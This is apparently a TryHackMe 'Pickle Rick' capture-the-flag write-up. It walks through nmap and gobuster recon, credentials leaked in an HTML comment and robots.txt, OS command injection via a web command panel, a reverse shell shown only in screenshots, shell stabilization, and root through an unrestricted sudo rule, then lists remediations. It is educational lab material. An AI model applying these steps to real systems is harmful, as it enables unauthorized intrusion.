# Pickle Rick — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.66.165.0 | **Attacker IP:** 192.168.146.25

## Machine info


## Summary

**Pickle Rick** is an easy TryHackMe machine themed around *Rick and Morty*: Rick has turned himself into a pickle again and needs Morty to find three secret ingredients scattered across the system to finish his pickle-reverse potion. The front page's HTML source leaks a username in a comment, and `robots.txt` leaks a password; both unlock an authenticated **Command Panel** vulnerable to OS command injection, giving a foothold as `www-data`. From there, an unrestricted sudo rule grants a direct, one-command escalation to root.

**Attack chain:** Nmap recon → Username leaked in HTML comment → Directory enumeration surfaces `robots.txt` → Password leaked via `robots.txt` → Authenticated command injection as www-data → Reverse shell → TTY stabilization → `sudo -l` reveals NOPASSWD: ALL → Root

## 1. Reconnaissance

```
nmap -p- -Pn -sV -sC -oN scan.txt 10.66.165.0

Nmap scan report for 10.66.165.0
Host is up (0.080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 9e:9e:5e:46:92:9d:f5:5b:86:9e:ca:e7:ff:cc:ac:8d (RSA)
|   256 61:e2:f5:0c:54:05:ba:71:67:fc:ef:2a:27:72:fe:bc (ECDSA)
|_  256 fe:e9:31:4c:13:5d:2a:ac:6d:c2:0e:f4:f4:7d:f6:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Two services of interest: SSH and an Apache web server themed around the machine's premise.

## 2. Credential Discovery

Viewing the front page's HTML source revealed a username hidden in a comment:

```
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

Directory and file enumeration with gobuster confirmed the rest of the attack surface:

```
gobuster dir -u http://10.66.165.0/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html

index.html           (Status: 200) [Size: 1062]
login.php            (Status: 200) [Size: 882]
assets               (Status: 301) [Size: 311] [--> http://10.66.165.0/assets/]
portal.php           (Status: 302) [Size: 0] [--> /login.php]
robots.txt           (Status: 200) [Size: 17]
```

`robots.txt` was checked next and returned a single string, which turned out to be the password:



Username obtained: `R1ckRul3s`. Password obtained via `robots.txt`: `Wubbalubbadubdub`.

## 3. Initial Access & Post-Exploitation

Logged into `login.php` with the credentials above:



A successful login redirects to `portal.php`, a **Command Panel** that passes user input straight into a shell command:



The portal's other navigation tabs lead to `denied.php`, which blocks access outright:



Listing the web directory from the Command Panel reveals a file holding the first ingredient, alongside the app's own files. It was read with `tac`:





`clue.txt` pointed to the next step:



Searching the filesystem turned up the second ingredient in Rick's home directory:



A reverse shell payload was submitted through the same Command Panel:



A listener on the attacker machine caught the callback, without job control:



Shell stabilization:

```
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

## 4. Privilege Escalation

Checked the web user's sudo permissions:

```
sudo -l

Matching Defaults entries for www-data on ip-10-66-165-0:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-66-165-0:
    (ALL) NOPASSWD: ALL
```

`www-data` can run any command as root with no password, so escalation is direct:

```
sudo -su root
```





## Root Cause & Remediation

| Issue | Fix |
|-------|-----|
| Credentials leaked via an HTML comment and `robots.txt` | Never store credentials in publicly reachable files; `robots.txt` only signals crawlers, it does not restrict access |
| Command panel passes user input directly into a shell command (OS command injection) | Never pass user input directly into a shell command; use safe APIs (e.g. an argument list, not a shell string) with strict input validation/allow-listing |
| `www-data` granted `(ALL) NOPASSWD: ALL` in sudoers | Apply least privilege: scope sudo rules to specific, necessary commands, never `ALL` for a web service account |
